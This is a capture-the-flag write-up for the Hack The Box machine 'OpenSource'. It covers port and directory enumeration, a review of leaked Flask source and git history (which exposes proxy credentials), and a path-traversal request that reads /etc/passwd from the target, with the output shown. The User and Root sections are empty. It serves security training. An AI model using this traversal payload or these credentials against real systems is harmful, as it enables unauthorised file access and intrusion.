




# OpenSource
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.164 -T4 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-28 18:01 BST
Stats: 0:11:43 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 97.88% done; ETC: 18:13 (0:00:15 remaining)
Nmap scan report for 10.10.11.164 (10.10.11.164)
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
3000/tcp filtered ppp
```
```
└─$ nmap -Pn -sC -sV 10.10.11.164 -T4 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-28 18:14 BST
Stats: 0:01:00 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:15 (0:00:42 remaining)
Nmap scan report for 10.10.11.164 (10.10.11.164)
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e:59:05:7c:a9:58:c9:23:90:0f:75:23:82:3d:05:5f (RSA)
|   256 48:a8:53:e7:e0:08:aa:1d:96:86:52:bb:88:56:a0:b7 (ECDSA)
|_  256 02:1f:97:9e:3c:8e:7a:1c:7c:af:9d:5a:25:4b:b8:c8 (ED25519)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
|_http-title: upcloud - Upload files for Free!
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Mon, 28 Aug 2023 17:13:51 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5316
|     Connection: close
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>upcloud - Upload files for Free!</title>
|     <script src="/static/vendor/jquery/jquery-3.4.1.min.js"></script>
|     <script src="/static/vendor/popper/popper.min.js"></script>
|     <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
|     <script src="/static/js/ie10-viewport-bug-workaround.js"></script>
|     <link rel="stylesheet" href="/static/vendor/bootstrap/css/bootstrap.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-grid.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-reboot.css"/>
|     <link rel=
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Mon, 28 Aug 2023 17:13:52 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, HEAD, GET
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
3000/tcp filtered ppp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94%I=7%D=8/28%Time=64ECD5F3%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,1039,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.1\.2\x20P
SF:ython/3\.10\.3\r\nDate:\x20Mon,\x2028\x20Aug\x202023\x2017:13:51\x20GMT
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:5316\r\nConnection:\x20close\r\n\r\n<html\x20lang=\"en\">\n<head>\n\x20
SF:\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20\x20\x20<meta\x20name=
SF:\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\
SF:n\x20\x20\x20\x20<title>upcloud\x20-\x20Upload\x20files\x20for\x20Free!
SF:</title>\n\n\x20\x20\x20\x20<script\x20src=\"/static/vendor/jquery/jque
SF:ry-3\.4\.1\.min\.js\"></script>\n\x20\x20\x20\x20<script\x20src=\"/stat
SF:ic/vendor/popper/popper\.min\.js\"></script>\n\n\x20\x20\x20\x20<script
SF:\x20src=\"/static/vendor/bootstrap/js/bootstrap\.min\.js\"></script>\n\
SF:x20\x20\x20\x20<script\x20src=\"/static/js/ie10-viewport-bug-workaround
SF:\.js\"></script>\n\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href
SF:=\"/static/vendor/bootstrap/css/bootstrap\.css\"/>\n\x20\x20\x20\x20<li
SF:nk\x20rel=\"stylesheet\"\x20href=\"\x20/static/vendor/bootstrap/css/boo
SF:tstrap-grid\.css\"/>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20hr
SF:ef=\"\x20/static/vendor/bootstrap/css/bootstrap-reboot\.css\"/>\n\n\x20
SF:\x20\x20\x20<link\x20rel=")%r(HTTPOptions,C7,"HTTP/1\.1\x20200\x20OK\r\
SF:nServer:\x20Werkzeug/2\.1\.2\x20Python/3\.10\.3\r\nDate:\x20Mon,\x2028\
SF:x20Aug\x202023\x2017:13:52\x20GMT\r\nContent-Type:\x20text/html;\x20cha
SF:rset=utf-8\r\nAllow:\x20OPTIONS,\x20HEAD,\x20GET\r\nContent-Length:\x20
SF:0\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTM
SF:L\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x
SF:20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equ
SF:iv=\"Content-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x2
SF:0</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>E
SF:rror\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code
SF::\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20req
SF:uest\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20<p>Error\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20
SF:Bad\x20request\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20
SF:\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
- Web Server







- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.164 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.164
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/08/28 18:18:08 Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 200) [Size: 2489147]
/console              (Status: 200) [Size: 1563]

```
## Foothold
- If we visit `/download` we download source files
  - It indicates that the app is running in `docker` container

```
└─$ tree -L 2
.
├── app
│   ├── app
│   ├── INSTALL.md
│   ├── public
│   └── run.py
├── build-docker.sh
├── config
│   └── supervisord.conf
└── Dockerfile
```
- Let's start by analyzing `git`



- `dev` branch
  - `git checkout dev`
  - We have proxy creds removed in the third commit: `dev01:Soulless_Developer#2022`
  - Also `Dockerfile` indicates that `flask` is in debug mode


- In master branch `views.py` we have only 2 routes
```
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

- While in `dev` branch we have 4
  - Which we see in actual box, so probably `dev` app is currently running
  - Moreover we saw `console` route also in `gobuster`
```
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

```

- `/console` 


- We have a potential `lfi` in `upcloud` route

```
file_name = get_file_name(f.filename)
file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
```

- If we read the [docs](https://docs.python.org/3.10/library/os.path.html#os.path.join)
  - `If a segment is an absolute path (which on Windows requires both a drive and a root), then all previous segments are ignored and joining continues from the absolute path segment.`
  - If we visit `http://10.10.11.164/uploads//etc/passwd`, it results in error
  - 



- We can utilize `get_file_name` function in `utils.py`, which replaces `../`
  - So if we send `http://10.10.11.164/uploads/..//etc/passwd`, it could work

```
└─$ curl --path-as-is http://10.10.11.164/uploads/..//etc/passwd    
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```


## User

## Root